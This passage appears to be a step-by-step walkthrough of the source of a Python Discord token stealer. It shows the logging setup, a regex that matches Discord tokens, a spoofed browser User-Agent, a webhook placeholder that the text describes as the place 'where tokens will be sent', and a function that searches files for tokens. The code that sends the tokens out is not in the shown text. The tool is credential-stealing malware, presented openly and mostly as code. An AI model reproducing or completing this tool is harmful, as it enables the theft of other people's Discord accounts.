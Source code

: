### 2. Logging Configuration

```python
# Configure logging
logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s - %(levelname)s - %(message)s',
    handlers=[logging.StreamHandler(sys.stderr)]
)
logger = logging.getLogger(__name__)
```

This sets up a basic logging configuration that:
- Sets the logging level to INFO
- Formats log messages with timestamp, log level, and the message
- Outputs logs to stderr
- Creates a logger instance for the current module

### 3. Constants

```python
# Constants
DISCORD_TOKEN_PATTERN = r"[\w-]{24,26}\.[\w-]{6}\.[\w-]{34,38}"  # noqa: S105
REQUEST_HEADERS = {
    "Content-Type": "application/json",
    "User-Agent": "Mozilla/5.0 (X11; U; Linux i686) Gecko/20071127 Firefox/2.0.0.11",
}
WEBHOOK_URL = "YOUR_WEBHOOK_URL_HERE"  # Replace with your actual webhook URL
```

- **DISCORD_TOKEN_PATTERN**: Regex pattern matching Discord token format
  - First part: 24-26 alphanumeric characters, hyphens, or underscores
  - Second part: 6 alphanumeric characters, hyphens, or underscores
  - Third part: 34-38 alphanumeric characters, hyphens, or underscores
- **REQUEST_HEADERS**: HTTP headers for webhook requests
- **WEBHOOK_URL**: The Discord webhook URL where tokens will be sent

### 4. Token Extraction Functions

#### 4.1 `extract_tokens_from_file`

```python
def extract_tokens_from_file(file_path: Path) -> Optional[List[str]]:
    """Extract potential Discord tokens from a file."""
    try:
        file_contents = file_path.read_text(encoding="utf-8", errors="ignore")
        return re.findall(DISCORD_TOKEN_PATTERN, file_contents) or None
    except (PermissionError, OSError) as e:
        logger.warning(f"Could not read file {file_path}: {e}")
        return None
```

This function:
1. Takes a file path as input
2. Attempts to read the file's contents with UTF-8 encoding
3. Uses regex to find all potential Discord tokens
4. Returns a list of tokens or None if an error occurs

